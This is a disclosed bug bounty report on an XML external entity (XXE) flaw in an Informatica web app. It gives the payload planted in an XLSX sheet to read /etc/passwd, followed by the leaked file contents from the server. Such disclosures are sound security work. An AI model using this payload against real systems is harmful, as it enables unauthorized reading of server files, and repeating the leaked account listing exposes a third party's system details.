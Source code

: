 # [rev-app.informatica.com] - XXE

## Report Details
- **Report ID**: 105434
- **URL**: https://hackerone.com/reports/105434
- **State**: Closed
- **Severity**: high
- **Submitted**: 2015-12-15T17:47:41.939Z
- **Disclosed**: 2016-08-02T15:30:38.774Z

## Reporter
- **Username**: yarbabin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
1. Open file xxe.xlsx like zip-archive
2. Read file xxe.xlsx\xl\worksheets\sheet1.xml

In file I wrote XXE payload:
<!DOCTYPE foo [  <!ELEMENT foo ANY ><!ENTITY xxe PUBLIC "lol" "file:///etc/passwd" >]>
Then, i went to https://rev-app.informatica.com and made new project and imported my XLSX-file

When it was impoted i see /etc/passwd file:
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
saslauth:x:499:76:Saslauthd user:/var/empty/saslauth:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/home/oprofile:/sbin/nologin
ec2-user:x:500:500::/home/ec2-user:/bin/bash
scom:x:501:501::/home/scom:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
nslcd:x:65:55:LDAP Client User:/:/sbin/nologin
dataprep:x:504:505::/home2/dataprep:/bin/bash
zabbix:x:498:506::/home/zabbix:/bin/bash

Video (private): https://youtu.be/612SgFdOrB0

## Attachments
- xxe_informatica.png
- xxe.xlsx
